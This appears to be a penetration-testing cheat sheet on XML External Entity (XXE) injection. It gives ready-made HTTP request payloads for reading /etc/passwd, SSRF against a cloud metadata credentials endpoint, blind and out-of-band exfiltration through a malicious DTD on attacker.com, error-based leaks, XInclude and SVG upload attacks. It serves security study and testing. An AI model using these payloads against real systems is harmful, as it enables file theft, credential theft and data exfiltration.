 # 🟩 XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:orange;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:orange;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:orange;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]>
```

Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline character

### <mark style="color:orange;">Exploiting blind XXE exfiltrate data out-of-band</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

* Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline characters

## <mark style="color:red;">Exploiting blind XXE to retrieve data via error messages</mark>

<mark style="color:green;">**First method**</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

<mark style="color:green;">**Second method**</mark>

* Retrieve data via repurposing a local DTD

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM 
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```



## <mark style="color:red;">Finding hidden attack surface for XXE injection</mark>

### <mark style="color:orange;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document like: backend SOAP service.

"XInclude" is a part of the XML specification that allows an XML document to be built from sub-documents.

```
// Edit HTTP request with "BurpSuit Proxy"
POST /product/stock HTTP/1.1
Host: web-security-academy.net
...
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```

### <mark style="color:orange;">XXE attacks via file upload</mark>

If uploaded files which are then processed server-side, it can be vulnerable. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Create a SVG image with this payload and upload it. The result will be on the image.

<pre><code><strong>&#x3C;?xml version="1.0" standalone="yes"?>&#x3C;!DOCTYPE test [ &#x3C;!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>&#x3C;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&#x3C;text font-size="16" x="0" y="16">&#x26;xxe;&#x3C;/text>&#x3C;/svg>
</strong></code></pre>

### <mark style="color:orange;">XXE attacks via modified content type</mark>

You might be able submit the following request, with the same result.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Server parses the body content as XML, then you can reach the hidden XXE attack surface
